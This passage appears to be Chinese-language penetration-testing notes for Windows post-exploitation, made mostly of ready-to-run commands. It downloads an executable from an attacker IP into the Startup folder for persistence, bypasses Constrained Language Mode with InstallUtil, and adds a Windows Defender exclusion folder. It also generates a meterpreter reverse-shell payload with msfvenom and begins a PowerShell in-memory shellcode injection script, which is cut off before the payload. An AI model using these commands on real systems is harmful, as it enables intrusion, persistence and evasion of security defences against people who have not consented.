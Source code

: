 4+版本
```
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

# 枚举所有Applocker策略
```
$ExecutionContext.SessionState.LanguageModeConstrainedLanguage

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# CLM

检查
```
$ExecutionContext.SessionState.LanguageMode
```

绕过
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\clm.exe"
```

# Windows Defender绕过

以下命令需要admin权限

枚举所有wd放行的文件夹
```
Get-MpPreference | select-object -ExpandProperty ExclusionPath
```

加一个排除项文件夹
```
Add-MpPreference -ExclusionPath "C:\Users\Public\Downloads\SuperLegitDownloadDirectory"
```

# PowerShell 内存注入

1. 编译powershell payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

2. ps脚本

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = [第一步生成的payload放在这里，不包括中括号]
```